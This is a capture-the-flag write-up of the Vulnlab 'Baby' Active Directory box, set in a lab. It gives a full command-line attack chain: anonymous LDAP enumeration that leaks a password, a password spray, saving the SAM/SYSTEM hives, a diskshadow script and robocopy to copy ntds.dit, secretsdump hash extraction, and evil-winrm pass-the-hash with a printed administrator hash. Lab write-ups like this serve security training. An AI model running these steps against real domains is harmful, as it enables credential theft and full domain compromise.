# Baby -- Vulnlab (write-up)

**Difficulty:** Easy
**Box:** Baby (Vulnlab)
**Author:** dkrxhn
**Date:** 2025-10-02

---

## TL;DR

### LDAP anonymous bind leaked user list and a password in description field. Password spray hit one user. Privesc via diskshadow + secretsdump to dump ntds.dit.
---
## Target info

- Host: `10.10.88.213`
- Domain: `baby.vl`
- Services discovered: `53/tcp (dns)`, `88/tcp (kerberos)`, `389/tcp (ldap)`, `445/tcp (smb)`, `5985/tcp (winrm)`
---
## Enumeration

```bash
nmap 10.10.88.213 -vvv -Pn -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389,49664,49667,49669,49674,49675,64126,64981
```





Enumerated users via LDAP:

```bash
ldapsearch -x -b "dc=baby,dc=vl" "user" -H ldap://10.10.88.213 | grep dn
```



Found a password in description fields:

```bash
ldapsearch -x -b "dc=baby,dc=vl" "*" -H ldap://10.10.88.213 | grep desc -A2
```



---
## Initial access

Password spray:

```bash
nxc smb 10.10.88.213 -u users.txt -p 'BabyStart123!'
```







---
## Privilege escalation

**First tried to copy ntds.dit directly but it was in use. Blackfield method gave access denied.**



Used diskshadow to create a shadow copy:

```
cd c:\
mkdir Temp
cd \Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
download sam
download system
```

Created `script.txt` for diskshadow:

```
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

```
diskshadow /s script.txt
robocopy /b E:\Windows\ntds . ntds.dit
download ntds.dit
```

Dumped secrets:

```bash
secretsdump.py -sam sam -system system -ntds ntds.dit LOCAL
```



**First attempt used local admin hash which doesn't work on DC machines.**



Used the domain admin hash:

```bash
evil-winrm -i 10.10.91.158 -u 'administrator' -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```



---
## Lessons & takeaways

- LDAP anonymous bind can leak passwords in user description fields
- Local admin hashes from SAM don't work for PTH on domain controllers -- use ntds.dit domain hashes
- diskshadow + robocopy is the reliable way to copy a locked ntds.dit
---
